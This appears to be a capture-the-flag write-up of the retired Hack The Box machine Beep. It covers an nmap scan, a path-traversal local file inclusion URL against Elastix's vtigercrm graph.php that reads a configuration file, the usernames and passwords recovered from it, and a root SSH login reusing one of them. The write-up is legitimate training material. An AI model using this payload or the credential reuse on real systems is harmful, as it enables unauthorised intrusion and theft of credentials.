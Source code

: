 ```yaml
---
layout: post
title: "Beep"
categories: HTB
---
```

<hr>
### Introduction
This is my writeup of the retired machine Beep from Hack the Box.

<hr>
### Nmap scan
```
nmap -sV -sC -p- -oA allports_nmap_scan 10.10.10.7

Nmap scan report for 10.10.10.7
Host is up (0.014s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS USER AUTH-RESP-CODE EXPIRE(NEVER) TOP RESP-CODES PIPELINING APOP UIDL IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0)
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: LITERAL+ CATENATE RIGHTS=kxte UNSELECT SORT QUOTA STARTTLS LISTEXT X-NETSCAPE OK IMAP4rev1 IMAP4 NAMESPACE NO SORT=MODSEQ LIST-SUBSCRIBED UIDPLUS URLAUTHA0001 CONDSTORE IDLE THREAD=REFERENCES RENAME ACL ANNOTATEMORE Completed ID BINARY MULTIAPPEND THREAD=ORDEREDSUBJECT CHILDREN ATOMIC MAILBOX-REFERRALS
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-18T05:31:35+00:00; -10s from scanner time.
879/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: -10s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 18 15:34:20 2020 -- 1 IP address (1 host up) scanned in 364.86 seconds
```

<hr>

### Web Enumeration

Browsing to port 80 redirects to port 443

Elastix is running<br>

![](\images\htb\beep\1.png)<br><br>

Elastix is vulnerable to LFI (view source to make it readable)<br>
`https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

![](\images\htb\beep\2.png)<br><br>

Found potential usernames and passwords
Users:<br>
```    
localhost
mysql
asterisk
asteriskuser
amp109
asterisk
admin
amp111
```
Passwords:<br>
```
jEhdIekWmdjE
mysql
asterisk
amp109
amp111
```
<hr>

### Root

Always try the simplest things first it could be a quick win<br>
    ```
    ssh root@10.10.10.7
    password: jEhdIekWmdjE
    ```
    <br>
![](\images\htb\beep\3.png)<br><br>
